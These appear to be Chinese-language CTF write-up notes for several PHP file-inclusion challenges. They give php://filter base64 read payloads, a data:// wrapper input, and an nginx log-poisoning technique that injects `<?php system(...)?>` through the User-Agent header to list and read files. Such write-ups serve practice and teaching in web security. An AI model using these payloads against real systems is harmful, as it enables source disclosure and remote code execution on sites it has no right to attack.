



##### [SWPUCTF 2021 新生赛]include

[NSS](https://www.ctfer.vip/problem/427)

- `?file=php://filter/read=convert.base64-encode/resource=flag.php`

##### [HNCTF 2022 Week1]Interesting_include

[NSS](https://www.ctfer.vip/problem/2900)

###### 题解

- `?filter=php://filter/read=convert.base64-encode/resource=flag.php`

###### 分析

源码：

```php
if(isset($_GET['filter'])){
    $file = $_GET['filter'];
    if(!preg_match("/flag/i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

传入后，$file 为一串 base64 码，成功绕过 preg_match 。

##### [SWPUCTF 2021 新生赛]PseudoProtocols

[NSS](https://www.ctfer.vip/problem/441)

- `?wllm=php://filter/read=convert.base64-encode/resource=hint.php`
- `?wllm=php://filter/read=convert.base64-encode/resource=test2222222222222.php` ，得知需访问 test2222222222222.php 。
- `?a=data://text/plain,I want flag`

##### [HNCTF 2022 WEEK2]easy_include

[NSS](https://www.ctfer.vip/problem/2948)

- file 随便传点东西，探查 web 中间件类型，得知为 nginx ：

  

- UA 头写入 `<?php system('ls /');?>` ，发送包。

- 再次包含日志，即可包含上一次写入的内容：

  

- 同理再来一次，这次写入 `<?php system('cat /f*');?>` ：

  